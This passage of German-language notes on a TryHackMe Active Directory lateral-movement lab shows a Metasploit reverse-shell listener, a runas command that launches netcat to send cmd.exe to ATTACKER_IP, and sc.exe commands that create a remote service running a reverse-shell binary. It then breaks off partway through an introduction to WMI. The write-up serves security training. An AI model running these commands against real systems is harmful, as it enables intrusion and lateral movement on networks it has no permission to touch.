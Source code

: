 Hier ist ein 1-Liner um dasselbe auszuführen:

```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```
Da sc.exe uns nicht erlaubt, Anmeldeinformationen als Teil des Befehls anzugeben, müssen wir runas verwenden, um eine neue Shell mit dem Zugriffstoken von t1_leonard.summer zu starten. Allerdings haben wir nur SSH-Zugang zur Maschine, daher würden wir, wenn wir etwas wie runas /netonly /user:ZA\t1_leonard.summers cmd.exe versuchen würden, die neue Befehlszeile auf der Benutzersitzung starten, aber keinen Zugriff darauf haben. Um dieses Problem zu überwinden, können wir runas verwenden, um eine zweite Reverse-Shell mit dem Zugriffstoken von t1_leonard.summers zu starten.

```bash
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```
Hinweis: Denken Sie daran, dass runas mit der Option /netonly nicht überprüft, ob die angegebenen Anmeldeinformationen gültig sind (weitere Informationen dazu im Raum zur Enumeration von AD), also stellen Sie sicher, dass Sie das Passwort korrekt eingeben. Andernfalls werden später im Raum einige ACCESS DENIED-Fehler angezeigt.

Wir können wie gewohnt die Verbindung zur Reverse-Shell unter Verwendung von nc in unserer AttackBox empfangen:

>nc -lvnp 4443

Danach können wir endlich unseren Service starten um eine Reverse Shell auf Port 4444 zu erreichen:

```bash
sc.exe \\thmiis.za.tryhackme.com create THMservice-4936 binPath= "%windir%\rshell4936.exe" start= auto

sc.exe \\thmiis.za.tryhackme.com start THMservice-4936
```

Stellen Sie sicher, dass Sie den Namen Ihres Dienstes ändern, um Konflikte mit anderen Studierenden zu vermeiden.

# Moving Laterally Using WMI 

Windows Management Instrumentation (WMI) ist eine Technologie, die von Microsoft entwickelt wurde und in den Windows-Betriebssystemen integriert ist. Sie ermöglicht die Verwaltung und Überwachung von Systemressourcen sowie die Automatisierung von Verwaltungsaufgaben auf Windows-basierten Computern.

Im Wesentlichen bietet WMI eine standardisierte Methode zum Zugriff auf und zur Steuerung von Systemressourcen wie Hardware, Software und Netzwerkkomponenten über eine einheitliche Schnittstelle. Dies bedeutet, dass Administratoren und Entwickler über WMI auf Informationen und Funktionen zugreifen können, ohne auf proprietäre APIs oder spezifische Treiber zurückgreifen zu müssen.

Mithilfe von WMI können verschiedene Aufgaben ausgeführt werden, darunter:

1. Überwachung: WMI ermöglicht die Überwachung von Systemressourcen wie CPU-Auslastung, Speicherverbrauch, Festplattenplatz und Netzwerkaktivität. Dies ist besonders nützlich für die Leistungsüberwachung und das Fehlermanagement.

2. Konfiguration: Administratoren können WMI verwenden, um Systemeinstellungen und Konfigurationen zu ändern, ohne auf Benutzeroberflächen zugreifen zu müssen. Dies erleichtert die Automatisierung von Verwaltungsaufgaben.
